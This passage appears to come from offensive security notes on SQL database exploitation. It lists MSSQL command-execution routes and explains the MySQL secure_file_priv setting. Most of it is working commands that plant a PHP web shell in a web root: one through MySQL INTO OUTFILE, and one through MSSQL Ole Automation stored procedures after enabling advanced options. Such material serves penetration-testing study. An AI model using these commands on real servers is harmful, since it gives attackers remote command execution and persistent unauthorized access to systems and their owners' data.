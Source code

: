 There are other methods to get command execution, such as :
- adding extended stored procedures
- CLR Assemblies
- SQL Server Agent Jobs
- external scripts
- xp_regwrite command




# Write Local Files


MySQL does not have a stored procedure like xp_cmdshell, but we can achieve command execution if we write to a location in the file system that can execute our commands. 

```
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

### Secure_file_priv

`secure_file_priv` limits the effect of data import and export operations, such as those performed by the LOAD DATA and SELECT … INTO OUTFILE statements and the LOAD_FILE() function. These operations are permitted only to users who have the FILE privilege.

secure_file_priv may be set as follows:

-    If `empty`, the variable has no effect, which is not a secure setting.
    
-    If set to the `name of a directory`, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
    
-    If set to `NULL`, the server disables import and export operations.



`mysql> show variables like "secure_file_priv";`



### MsSSQL File Write

To write files using MSSQL, we need to enable `Ole Automation Procedures`, which requires admin privileges, and then execute some stored procedures to create the file:

```
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

```
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
